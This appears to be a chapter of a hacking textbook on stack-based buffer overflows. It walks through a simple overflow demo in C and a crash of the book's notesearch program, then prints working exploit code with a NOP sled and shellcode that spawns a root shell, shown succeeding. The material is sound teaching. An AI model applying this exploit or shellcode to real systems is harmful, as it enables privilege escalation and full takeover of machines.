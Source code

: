 # *__Buffer Overflows__*

Buffer overflow vulnerabilities have been around since the early days of computers and still exist today. Most Internet worms use buffer overflow vulnerabilities to propagate, and even the most recent zero-day VML vulnerability in Internet Explorer is due to a buffer overflow. 

C is a high-level programming language, but it assumes that the programmer is responsible for data integrity. If this responsibility were shifted over to the compiler, the resulting binaries would be significantly slower, due to integrity checks on every variable. Also, this would remove a significant level of control from the programmer and complicate the language.

While C’s simplicity increases the programmer’s control and the efficiency of the resulting programs, it can also result in programs that are vulnerable to buffer overflows and memory leaks if the programmer isn’t careful. This means that once a variable is allocated memory, there are no built-in safeguards to ensure that the contents of a variable fit into the allocated memory space. If a programmer wants to put ten bytes of data into a buffer that had only been allocated eight bytes of space, that type of action is allowed, even though it will most likely cause the program to crash. This is known as a _buffer overrun_ or _buffer overflow_, since the extra two bytes of data will overflow and spill out of the allocated memory, overwriting whatever happens to come next. If a critical piece of data is overwritten, the program will crash. The _overflow_example.c_ code offers an example.

__overflow_example.c__

```c
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[]) 
{
    int value = 5;
    char buffer_one[8], buffer_two[8];

    strcpy(buffer_one, "one"); /* Put "one" into buffer_one. */
    strcpy(buffer_two, "two"); /* Put "two" into buffer_two. */

    printf("[BEFORE] buffer_two is at %p and contains \'%s\'\n", buffer_two, buffer_two);
    printf("[BEFORE] buffer_one is at %p and contains \'%s\'\n", buffer_one, buffer_one);
    printf("[BEFORE] value is at %p and is %d (0x%08x)\n", &value, value, value);

    printf("\n[STRCPY] copying %d bytes into buffer_two\n\n", strlen(argv[1]));
    strcpy(buffer_two, argv[1]); /* Copy first argument into buffer_two. */

    printf("[AFTER] buffer_two is at %p and contains \'%s\'\n", buffer_two, buffer_two);
    printf("[AFTER] buffer_one is at %p and contains \'%s\'\n", buffer_one, buffer_one);
    printf("[AFTER] value is at %p and is %d (0x%08x)\n", &value, value, value);
}
```

By now, you should be able to read the source code above and figure out what the program does. After compilation in the sample output below, we try to copy ten bytes from the first command-line argument into _buffer_two_, which only has eight bytes allocated for it.

<pre style="color: white;">
reader@hacking:~/booksrc $ gcc -o overflow_example overflow_example.c
reader@hacking:~/booksrc $ ./overflow_example 1234567890
[BEFORE] buffer_two is at 0xbffff7f0 and contains 'two'
[BEFORE] buffer_one is at 0xbffff7f8 and contains 'one'
[BEFORE] value is at 0xbffff804 and is 5 (0x00000005)

[STRCPY] copying 10 bytes into buffer_two

[AFTER] buffer_two is at 0xbffff7f0 and contains '1234567890'
[AFTER] buffer_one is at 0xbffff7f8 and contains '90'
[AFTER] value is at 0xbffff804 and is 5 (0x00000005)
reader@hacking:~/booksrc $
</pre>

Notice that _buffer_one_ is located directly after _buffer_two_ in memory, so when ten bytes are copied into _buffer_two_, the last two bytes of _90_ overflow into _buffer_one_ and overwrite whatever was there.

A larger buffer will naturally overflow into the other variables, but if a large enough buffer is used, the program will crash and die.

<pre style="color: white;">
reader@hacking:~/booksrc $ ./overflow_example AAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[BEFORE] buffer_two is at 0xbffff7e0 and contains 'two'
[BEFORE] buffer_one is at 0xbffff7e8 and contains 'one'
[BEFORE] value is at 0xbffff7f4 and is 5 (0x00000005)

[STRCPY] copying 29 bytes into buffer_two

[AFTER] buffer_two is at 0xbffff7e0 and contains
'AAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
[AFTER] buffer_one is at 0xbffff7e8 and contains 'AAAAAAAAAAAAAAAAAAAAA'
[AFTER] value is at 0xbffff7f4 and is 1094795585 (0x41414141)
Segmentation fault (core dumped)
reader@hacking:~/booksrc $
</pre>

These types of program crashes are fairly common—think of all of the times a program has crashed or blue-screened on you. The programmer’s mistake is one of omission—there should be a length check or restriction on the user-supplied input. These kinds of mistakes are easy to make and can be difficult to spot. In fact, the _notesearch.c_ program on page 93 contains a buffer overflow bug. You might not have noticed this until right now, even if you were already familiar with C.

<pre style="color: white;">
reader@hacking:~/booksrc $ ./notesearch AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
-------[ end of note data ]-------
Segmentation fault
reader@hacking:~/booksrc $
</pre>

Program crashes are annoying, but in the hands of a hacker they can become downright dangerous. A knowledgeable hacker can take control of a program as it crashes, with some surprising results. The _exploit_notesearch.c_ code demonstrates the danger.

__exploit_notesearch.c__

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char shellcode[]=
"\x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x6a\x0b\x58\x51\x68"
"\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89"
"\xe1\xcd\x80";

int main(int argc, char* argv[]) 
{
    unsigned int i, *ptr, ret, offset=270;
    char* command, *buffer;

    command = (char *) malloc(200);
    bzero(command, 200); // Zero out the new memory.

    strcpy(command, "./notesearch \'"); // Start command buffer.
    buffer = command + strlen(command); // Set buffer at the end.

    if (argc > 1) // Set offset.
        offset = atoi(argv[1]);

    ret = (unsigned int) &i - offset; // Set return address.

    for (i = 0; i < 160; i+=4) // Fill buffer with return address.
        *((unsigned int *)(buffer+i)) = ret;
    memset(buffer, 0x90, 60); // Build NOP sled.
    memcpy(buffer+60, shellcode, sizeof(shellcode)-1);

    strcat(command, "\'");
    system(command); // Run exploit.
    free(command);
}
```

This exploit’s source code will be explained in depth later, but in general,it’s just generating a command string that will execute the notesearch program with a command-line argument between single quotes. It uses string functions to do this: _strlen()_ to get the current length of the string (to position the buffer pointer) and _strcat()_ to concatenate the closing single quote to the end. Finally, the system function is used to execute the command string. The buffer that is generated between the single quotes is the real meat of the exploit. The rest is just a delivery method for this poison pill of data. Watch what a controlled crash can do.

<pre style="color: white;">
reader@hacking:~/booksrc $ gcc exploit_notesearch.c
reader@hacking:~/booksrc $ ./a.out
[DEBUG] found a 34 byte note for user id 999
[DEBUG] found a 41 byte note for user id 999
-------[ end of note data ]-------
sh-3.2#
</pre>

The exploit is able to use the overflow to serve up a root shell—providing full control over the computer. This is an example of a stack-based buffer overflow exploit.